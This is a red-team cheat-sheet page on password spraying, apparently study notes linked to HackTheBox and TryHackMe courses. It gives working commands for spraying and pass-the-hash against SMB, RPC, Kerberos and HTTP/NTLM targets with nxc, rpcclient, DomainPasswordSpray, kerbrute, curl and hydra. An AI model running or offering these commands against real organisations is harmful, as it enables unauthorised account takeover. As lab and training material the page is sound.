 # Password spraying

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)
[![passwordattacks](../../../../_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

<div class="row row-cols-lg-2"><div>

Password spraying is a technique that is the most commonly used nowadays to find a working credential pair.

We select a password and test it on a list of usernames. After a delay, we repeat this step with another password. 🤖

Many companies have some [password policy](policy.md) that may include account lookout after a certain number of failed attempts, which makes brute force impractical as we would lock all accounts.
</div><div>

Some tools you might use:

* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) <small>(1.4k ⭐, 2022 🪦)</small>
* [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray) <small>(0.9k ⭐)</small>
* [CredMaster](https://github.com/knavesec/CredMaster) <small>(0.8k ⭐)</small>

Many [network authentication tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) can be used such as `hydra -C`.
</div></div>

<hr class="sep-both">

## Windows Credentials Password spraying

<div class="row row-cols-lg-2"><div>

#### Leveraging SMB

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can use [SMB](/operating-systems/networking/protocols/smb.md):

```ps
$ nxc smb IP -u wordlist -p PasswordHere
$ nxc smb IP -u wordlist -p PasswordHere | grep +
$ nxc smb --local-auth CIDR -u administrator -H hash | grep +
```

#### Leveraging RPC

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

A very poor but straightforward [RPC](/operating-systems/networking/protocols/rpc.md) password spraying:

```ps
$ for u in $(cat wordlist);do rpcclient -U "$u%PasswordHere" -c "getusername;quit" IP | grep Authority; done
```
</div><div>

#### Leveraging A Domain-joined Host

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You may use [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) <small>(1.6k ⭐)</small>:

```ps
PS> Import-Module .\DomainPasswordSpray.ps1
PS> Invoke-DomainPasswordSpray -Password PasswordHere -OutFile output.txt -ErrorAction SilentlyContinue
```

#### Leveraging Kerberos Authentication Module

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can use [kerbrute](/cybersecurity/red-team/tools/utilities/windows/kerbrute.md):

```ps
$ kerbrute passwordspray -d domain --dc IP valid_users.txt mypassword
```
</div></div>

<hr class="sep-both">

## HTTP LDAP Credentials Password spraying

[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)

<div class="row row-cols-lg-2"><div>

We can use `curl` to test a pair of credentials:

```ps
$ curl URL -u "username:password" --ntlm
```

We can also use tools such as hydra:

```ps
$ hydra -L usernames.txt -p password example.com http-get
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

External Password Spraying

* Microsoft 0365, Exchange, Skype, RDS
* VPN portals (Citrix, SonicWall, OpenVPN, Fortinet using AD Auth)
* Any app using AD Auth
* ...
</div><div>
</div></div>